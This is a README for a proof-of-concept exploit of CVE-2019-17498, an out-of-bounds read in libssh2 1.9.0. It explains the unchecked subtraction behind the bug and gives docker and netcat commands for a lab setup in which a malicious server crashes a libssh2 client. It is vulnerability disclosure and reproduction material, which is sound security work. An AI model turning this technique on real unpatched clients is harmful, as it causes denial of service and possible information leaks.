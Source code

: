 # Out-of-bounds read in libssh2 (CVE-2019-17498)

[libssh2](https://www.libssh2.org/) version 1.9.0 contains a remotely triggerable out-of-bounds read, leading to denial of service or potentially to information disclosure. I reported this bug to libssh2-security@haxx.se on 2019-07-01. At the time of writing (2019-10-15), it has been [fixed on the main branch](https://github.com/libssh2/libssh2/pull/402/commits/1c6fa92b77e34d089493fe6d3e2c6c8775858b94), but a new official version containing a fix has not yet been released.

This directory contains a proof of concept exploit for the vulnerability. It uses [docker](https://www.docker.com/) to simulate two computers. The first is a server, with a simple [netcat](https://linux.die.net/man/1/nc) command listening on port 22. The second is a client, running `libssh2`. When the client attempts to connect to server, the server sends back a malicious response which triggers a segmentation fault in the client.

The source location of the vulnerability is [packet.c:480](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L480):

```c
if(message_len < datalen-13) {
```

The value of `datalen` is untrusted because it came from the remote computer. If `datalen == 11`, for example, then the subtraction will overflow and the bounds-check of `message_len` is ineffective, leading to an out-of-bounds read on [line 485](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L485).

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```bash
docker network create -d bridge --subnet 172.18.0.0/16 libssh2-demo-network
```

## Server setup

Build the docker image:

```bash
docker build server -t libssh2-server --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.10 -i -t libssh2-server
```

Start the malicious "ssh server":

```bash
sudo nc -l -p 22 < poc.bin  # password is x
```

## Client setup

Build the docker image:

```bash
docker build client -t libssh2-client --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 -i -t libssh2-client
```

If you want to be able to debug libssh2 with gdb, then you need to start the container with a few extra arguments:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t libssh2-client
```

In the container, attempt to connect to the server:

```bash
cd ~/libssh2/example
./ssh2 172.18.0.10
```

This command crashes with a segmentation fault.

If you would like to debug libssh2 with [gdb](https://www.gnu.org/software/gdb/), then start it like this:

```bash
cd ~/libssh2/example/.libs
LD_LIBRARY_PATH="/home/victim/libssh2/src/.libs:$LD_LIBRARY_PATH" gdb --args ./ssh2 172.18.0.10
```
